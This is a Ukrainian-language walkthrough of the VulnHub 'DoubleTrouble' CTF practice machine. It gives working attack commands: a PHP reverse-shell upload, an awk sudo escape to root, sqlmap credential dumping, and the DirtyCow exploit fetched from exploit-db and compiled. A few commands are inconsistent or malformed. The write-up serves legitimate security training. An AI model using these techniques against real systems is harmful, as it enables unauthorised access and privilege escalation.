

В цьому документі наведено розгорнуте пояснення до завдання **Capture the Flag (CTF)**, опубліковане на сайті **VulnHub**. Відповідно до наданої автором інформації, рівень складності цього CTF — **СЕРЕДНІЙ**, а мета — отримати **root-доступ** до цільової машини та знайти **файли-флаги**.  

Для проходження цього CTF необхідно володіти:
- **базовим знанням команд Linux**
- **розумінням мережевих сервісів**
- **навичками використання інструментів для тестування на проникнення**
- **базовим розумінням мов програмування (Python, PHP)**

Завантажити CTF можна [тут](https://www.vulnhub.com/entry/doubletrouble-1,743/).  


> ⚠️ **Примітка**: Для запуску всіх цих вразливих машин було використано **Oracle VirtualBox**. Для проходження CTF використано **Kali Linux** або  **ParrotOS** як атакуючу машину. Використані методики призначені **виключно для освітніх цілей**. <br>
**Відповідальность за їх застосування проти будь-яких інших цілей буде визначатись відповідно чинному законодавству.**  

---

## **Короткий огляд кроків вирішення CTF**

1. Отримати **IP-адресу цільової машини** (**netdiscover**).
2. Просканувати **відкриті порти цільової машини** (**nmap**).  
3. Перевірити **HTTP-сервіс** та знайти підказки.  
4. Зробити підвищення привілеїв  
   

---

### 1. Отримання **IP-адресу цільової машини**

```sh
sudo netdiscover -r 10.0.2.0/24
```


Зверніть увагу, на MAC-адресу, маємо декілька, які починаються з **08:00:27**,
що означає, що це віртуальні машини VirtualBox.


### 2. Сканування **відкритих портів цільової машини**.

Можна зробити різними шляхами:

```sh
sudo nmap -A --reason 10.0.2.14
```
або
```sh
sudo nmap -sV --reason 10.0.2.14
```

Отримуємо наступне:


Таким чином, в нас є умовний доступ до вебверверу та ssh-серверу.


### 3. Дослідження вебсервера

У браузері відкриваємо http://10.0.2.14,  отримуємо:


Передивляємось, з чим маємо справу, виявляється, що це фрішна тулза для менеджерів проєктів.

Виявляємо доступні директорії:

```sh
gobuster dir -u http://10.0.2.14/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Отримуємо наступний результат:


Існує декілька варіантів для подальших досліджень, то почнемо.
Три останніх директорії можуть містити в собі найбільш корисну інформацію для нас, то передивимось їх.


Таким чином, отрмали одну пусту директорію та дві з інформацією.
Почнемо з зображення, спробуємо перевірити її на прихований зміст за допомогою інструментів стеганоаналізу **stegcracker** або **stegseek**.

```sh
stegcracker Downloads/doubletrouble.jpg /usr/share/wordlists/rockyou.txt
```
За декілька хвилин отримуємо настпуний результат:


Далі передивляємось зміст файлу:
```sh
cat Downloads/doubletrouble.jpg.out
```
Отримуємо наступний вивід:


Далі логінемось в панелі керування:


Після логіну бачимо панель керування:


Передивляємось дозволи користувача, бачимо наступне:


Намагаємось завантажити реверсшелл для .php (сподіваємось, що немає перевірки)
Для прикладу, скористаємось існуючим репозіторієм на ГітХабі:
https://github.com/pentestmonkey/php-reverse-shell


Відповідно до знайденої версії qdPM можемо перевірити існування відповідних експлойтів на ресурсі exploit-DB:


Вносимо відповідні зміни до **php-reverse-shell**


Внисимо зміни в експлойт


Запускаємо знайдений експлойт


Чекаємо, передивляємось файли в uploads, передивляємось їх по черзі та отримуємо реверс-шелл:


Бачимо, що повноваження обежені, то наступним кроком будемо шукати далі:
```sh
cat /etc/issue
```
```sh
uname -a
```

```sh
sudo -l
```


Наступним кроком формуємо та виконуємо відповудну команду **awk**

```sh
sudo awk 'BEGIN { system("/bin/bash") }'
```
Перевіряємо свої дозволи за допомогою **id**,
бачимо, що отримали рут-права:


### Пояснення:

Розбір по частинах
1. **sudo**

sudo запускає команду від імені root (адміністратора), якщо користувач має на це право. Тобто все, що виконується після sudo, працює з найвищими привілеями.

2. **awk**

awk — це інструмент для обробки тексту, але насправді це повноцінна мова з власними функціями, зокрема:
- змінні
- умови
- цикли
- виклики системних команд через **system()**

3. 'BEGIN { ... }'

У **awk** є спеціальний блок:

**BEGIN {}** — виконується перед обробкою будь-яких рядків файлу або вводу
тобто навіть без файлів awk виконає код у BEGIN

Тому команда працює навіть так:

**awk 'BEGIN { ... }'**

без жодних вхідних даних.

4. **system("/bin/bash")**

**Функція system() в awk:**
запускає зовнішню команду ОС
тут запускається: **/bin/bash** — стандартна оболонка Linux
*Тобто фактично:*
awk викликає новий процес Bash.

**Що відбувається в цілому**

Якщо зібрати все разом:
sudo → запускає awk з правами root
awk виконує блок BEGIN
system("/bin/bash") → відкриває Bash
Bash успадковує ті ж права → ви отримуєте root-shell
Фактично це еквівалентно:
sudo /bin/bash
але зроблено через awk.

Тобтоми отримали рут-доступ, але не знайшли жодного флага, то спробуємо знайти.
Передивимось рут-директорію.
```sh
 cd /root
 ls
```
Бачимо зміст директорії, в неї лише 2 файла:


Продовжуємо досліджувати знайдену додаткову інформацію, в нашому випадку це образ ВМ.
Нам потрібно буде розгорнути цей образ як ще одну ВМ.
```sh
cp doubletrouble.ova /var/www/html/
cd /var/www/html/
wget http://10.0.2.14/doubletrouble.ova 
```


Існує два шляхи завантаження - або перемикнути в VirtualBox мережевий адаптер
на **bridged**, або зробити **port forwarding**  для мережі **CTF_Network**.
В нашому випадку скористаємось другим варіантом, бо він складнишій, але більш безпечний, оскільки бажано тримати всі вразливі ВМ в ізольованому середовищі, 
яким і є наша NAT мережа.


після додавання рулів маємо наступне:

Правило2 для під'єднання хоста до ВМ з образом (doubletrouble VM) через HTTP.

Правило3 для під'єднання хоста до ВМ з Kali.

Після завантаження образу нової віртаульної машини запускаємо (імпортуємо) її у VirtualBox (CTF_Natnetwork, де вже знаходяться Kali та перша VM doubletrouble).
Знаходимо цю машинку як і раніше задопомогою ***netdiscover*


Далі проводимо сканування:
```sh
nmap 10.0.2.16 -p- -sV
```
Було використано параметр -sV у команді Nmap для визначення версій сервісів. Також  використано опцію -p- для повного сканування портів. Вона вказує Nmap виконати сканування всіх 65 535 портів на цільовій машині. За замовчуванням Nmap сканує лише перші 1 024 відомі порти. Тому під час пентесту або розв’язання CTF особливо важливо виконувати повне сканування портів, щоб отримати максимально повні результати.

Сканування виявило лише два відкриті порти на цільовій машині. Доступні стандартні порти 22 та 80, які використовуються відповідно для сервісів SSH та HTTP. Почнемо детальніше досліджувати (enumeration) спочатку HTTP-порт.


Ми спробували кілька стандартних комбінацій імені користувача та пароля, але жодна з них не спрацювала на сторінці входу. Тому ми вирішили виконати сканування вебзастосунку з метою переліку (enumeration) файлів і каталогів на цільовому застосунку. Для сканування переліку файлів ми використали інструмент  **dirb**. Використану команду та результати можна побачити на наведеному нижче скріншоті.
```sh
dirb http://10.0.2.16
```

Оскільки результат отримали негативний, то спробуємо підключити BurpSuit або Zaproxy:
Запускаємо, пробуємо залогінитись:


Висновки по скріншоту:
1. Є форма логіну з POST-параметрами

У BurpSuit видно HTTP-запит:

POST /index.php HTTP/1.1
...
uname=admin&psw=admin&btnLogin=Login

Тобто, параметри:

**uname** — ім’я користувача
**psw** — пароль

дані передаються у класичному **form-encoded** вигляді.

Це типовий випадок, де на сервері формується SQL-запит на кшталт:

**SELECT * FROM users WHERE username='...' AND password='...';**

Саме такі місця часто бувають вразливими, якщо розробник не використовує параметризовані запити.

2. Серверна частина — PHP + Apache

У відповіді видно заголовки:

**Server: Apache/2.2.22 (Debian)**
**X-Powered-By: PHP/5.5.38**

Це стара версія PHP і типове LAMP-середовище, яке в навчальних лабораторіях дуже часто:

використовує MySQL / MariaDB
має просту, небезпечну реалізацію SQL-запитів.

**Це не доказ, проте індикатор ризику.**

3. Відсутність будь-яких захисних механізмів у запиті

На формі не видно:

- CSRF-токенів
- додаткової валідації
- хешування на клієнті
- captcha
- обмежень на кількість спроб

**Це говорить, що застосунок спрощений і, ймовірно, вразливий.**

4. Поведінка відповіді

Після відправки неправильних облікових даних:

- сервер повертає HTTP 200 OK
- знову віддає ту саму HTML-форму логіну
- без чіткої помилки автентифікації

У таких випадках тестувальники часто перевіряють:

- чи змінюється відповідь при нестандартних значеннях параметрів
- чи зʼявляються помилки БД
- чи змінюється логіка авторизації

**Це типовий старт для перевірки SQL-інʼєкцій.**

Готуємо POST запит на Калі
```sh
cat >> sql                         
POST /index.php HTTP/1.1
Host: 10.0.2.16
Content-Length: 36
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.0.2.16
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.16/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

uname=admin&psw=admin&btnLogin=Login
```

**sqlmap -r sql --dbs**

Ми використали інструмент SQLMap для експлуатації вразливості SQL-інʼєкції. Інструмент підтвердив, що параметр name є вразливим до SQL-інʼєкції. Ми застосували опцію --dbs у команді sqlmap, щоб перевірити наявні бази даних, що показано на наведеному нижче скріншоті.


Ми використали опцію --tables для перевірки наявних таблиць у базі даних. У базі даних була виявлена лише одна таблиця з назвою users. Таблиця users може містити облікові дані для входу в систему. Перевірмо доступний вміст таблиці users у базі даних.

Для переліку (enumeration) доступних стовпців у таблиці ми використали опцію --columns. Використану команду та отриманий результат можна побачити на наведеному нижче скріншоті.

```sh
sqlmap -u sql doubletruble –tables
```
Результат:


---

Ми використали параметр **`--tables`**, щоб перевірити наявні таблиці в базі даних. У базі була виявлена лише одна таблиця з назвою **`users`**. Таблиця `users` може містити облікові дані для входу. Перевіримо доступний вміст таблиці `users` у базі даних. Для переліку доступних стовпців у таблиці ми використали параметр **`--columns`**. Використану команду та результат можна побачити на наведеному нижче скріншоті.

**Використана команда:**

```
sqlmap -r sql -D doubletrouble -T users --columns
```
Результат:


Доступними стовпцями є **`username`** та **`password`**. Ми вибрали та використали параметр **`--dump`**, щоб завантажити повну інформацію з бази даних. Команду, використану для цього, і результати можна побачити нижче.

**Використана команда:**

```
sqlmap -r sql -D doubletrouble -T users -C password,username --dump
```
Результат:


Інструмент виявив дві пари імен користувачів і паролів, збережених у відкритому (незашифрованому) вигляді в базі даних. Ми використали ці дані на сторінці входу цільового застосунку, але це не спрацювало. Оскільки нам відомо, що порт SSH також відкритий, на наступному кроці ми спробуємо увійти через SSH, використовуючи ці облікові дані.

---

Далі ми спробували увійти на цільову машину через SSH. Спочатку вхід було відхилено, оскільки облікові дані були неправильними. Але друга комбінація спрацювала, що видно нижче.

**Використана команда:**

```
ssh clapton@192.168.1.24
```
Результат:


Як видно вище, вхід був успішним, і ми увійшли на цільову машину. Правильні дані для входу наведені нижче для довідки:

* **Ім’я користувача:** clapton
* **Пароль:** ZubZub99

Тепер ми увійшли як користувач **`clapton`**. Ми почали переглядати різні файли та каталоги на цільовій машині. Було знайдено користувацький прапорець (user flag), що видно на наступному скріншоті.

**Використана команда:**

```
cat user.txt
```
Результат:


Файл із користувацьким прапорцем `user.txt` видно на наведеному вище скріншоті. Оскільки для завершення CTF-завдання потрібно підвищити привілеї до рівня root, ми виконали перелік інформації про операційну систему та ядро на цільовій машині. Відомості про версію ОС та ядра можна побачити на скріншоті вище. Ми виконали пошук в інтернеті, щоб визначити відомі вразливості у встановлених версіях.


Було ідентифіковано вразливість підвищення привілеїв у встановленій операційній системі. Експлойт також був публічно доступний на сайті exploit-DB, що показано нижче.

Давайте переглянемо інформацію про експлойт на сайті. Деталі експлойту можна побачити на наступному скріншоті.

Результат:


Згідно з інформацією, доступною на сайті exploit-DB, ми можемо виконати експлойт на вразливій цілі. Він надасть root-доступ шляхом експлуатації файлу **`/etc/passwd`**. Отже, завантажимо експлойт на цільову машину.

**Використана команда:**

```
wget https://www.exploit-db.com/raw/40839
```


Ми використали утиліту `wget` для завантаження експлойту, вказавши URL exploit-DB. Після завантаження скомпілюємо експлойт за допомогою компілятора `gcc`.

**Використана команда:**

```
gcc -pthread exploit.c -o dirty -lcrypt
```


Після процесу компіляції в каталозі `tmp` було створено два файли. Згідно з описом на сайті експлойту, необхідно виконати файл з назвою **`dirty`** і ввести новий пароль для користувача root. Типове ім’я облікового запису з root-привілеями — **`firefart`**.

**Використані команди:**

```
./dirty
su firefart
```


Як видно вище, ми змінили пароль root, що надало нам доступ до цільової машини від імені користувача **`root`**. Це було підтверджено виконанням команди `id`. Далі ми переглянули файли на цільовій машині вже як користувач root, щоб знайти root-прапорець і завершити завдання.

**Використана команда:**

```
cat /root/root.txt
```
Результат:

Як видно на наведеному вище скріншоті, root-прапорець було знайдено в каталозі root на цільовій машині. Файл мав назву **`root.txt`**, і його вміст показано на скріншоті.


Вітання, CTF VM DoubleTrouble пройдена!
